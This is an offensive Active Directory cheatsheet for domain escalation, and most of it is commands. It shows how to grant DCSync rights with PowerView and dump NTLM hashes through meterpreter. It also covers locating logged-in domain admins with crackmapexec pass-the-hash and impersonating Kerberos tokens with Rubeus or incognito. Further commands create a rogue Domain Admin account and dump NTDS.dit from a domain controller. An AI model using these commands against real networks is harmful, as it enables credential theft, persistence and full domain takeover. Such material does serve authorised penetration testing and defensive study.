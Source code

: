 ### Pivoting

See next cheatsheet Pivoting

### **Domain escalation**

#### Remote GUI domain \(RSAT\)

* [https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT\_WS\_1709-x64.msu](https://download.microsoft.com/download/1/D/8/1D8B5022-5477-4B9A-8104-6A71FF9D98AB/WindowsTH-RSAT_WS_1709-x64.msu) \(Users and Computers AD =&gt; View =&gt; Advanced\)

#### ACLs

Get ACL

```text
Get-DomainObjectAcl -Identity <username> -ResolveGUIDs ? { $_.SecurityIdentifier -Match $(ConvertTo-SID <domain>) }
```

add DCSync

```text
Add-DomainObjectAcl -TargetIdentity "DC=<domain>,DC=<local>" -PrincipalIdentity <username> -Rights DCSync
```

dump ntds 

```text
meterpreter > dcsync_ntlm <DOMAIN>\<user>
```

#### **Kerberos impersonate**

Find domain admin accounts 

```text
net group "Domain Admins" /DOMAIN
```

Find which if one is loggedin somewhere :

```text
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --loggedin
```

Impersonate his kerberos token

```text
Rubeus.exe
incongnito (meterpreter)
```

Create new Domain Admin account 

```text
net user add <user> <pass> /domain
net group "Domain Admins" <user> /add
```

## Domain admin account

### Dump NDTS.dit from DC

```text
cme smb 192.168.1.100 -u <domain_admin> -p '<pass>' --ntds
```



